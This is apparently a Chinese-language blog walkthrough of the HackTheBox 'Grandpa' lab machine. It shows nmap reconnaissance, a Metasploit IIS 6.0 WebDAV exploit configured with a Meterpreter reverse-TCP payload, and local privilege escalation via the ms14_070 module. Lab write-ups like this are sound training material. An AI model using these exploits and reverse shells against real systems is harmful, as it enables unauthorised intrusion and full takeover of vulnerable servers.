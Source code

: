 ```yaml
---
title: Hackthebox::Grandpa walkthrough
date: 2021/12/14
categories: 渗透测试
tags: [渗透测试,walkthrough]
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_22.jpg
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_22.jpg
---
```


- **Grandpa是hackthebox上一台难度为简单的windows靶机**

# 信息收集

- 首先使用nmap扫描一下端口情况

![image-20211227230552901](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227230552901.png)

- 然后使用nmap扫描一下是否存在漏洞

![image-20211227230757330](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227230757330.png)

- 通过两次nmap的扫描，我们得知靶机开放了80端口，并且存在漏洞
- 使用searchsploit扫描`Microsoft IIS httpd 6.0`服务，看看是否有可以被利用的漏洞

![image-20211227231051633](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231051633.png)

- 我们发现了许多可以使用的脚本，再次使用msf查看是否可以利用‘

![image-20211227231247078](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231247078.png)

- 我们发现了可以利用的部分，我们使用第二个

```shell
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         10.129.166.10    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86
```

- 我们成功进入了，但是很可惜我们的权限不足

![image-20211227231707825](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231707825.png)

- 我们将迁移进程，并且寻找合适的漏洞利用脚本来入侵
- 迁移进程

![image-20211227231911796](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227231911796.png)

# 漏洞利用

- 使用suggester查看可以利用漏洞的脚本

![image-20211227232427257](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227232427257.png)

- 我们发现了以下可以使用的方式，我们选择`exploit/windows/local/ms14_070_tcpip_ioctl`

![image-20211227233022025](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233022025.png)

- 完成设置

![image-20211227233230168](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233230168.png)

- 好的，我们成功了，获得了最高权限

![image-20211227233425946](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233425946.png)

- 查看flag

![image-20211227233646152](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227233646152.png)
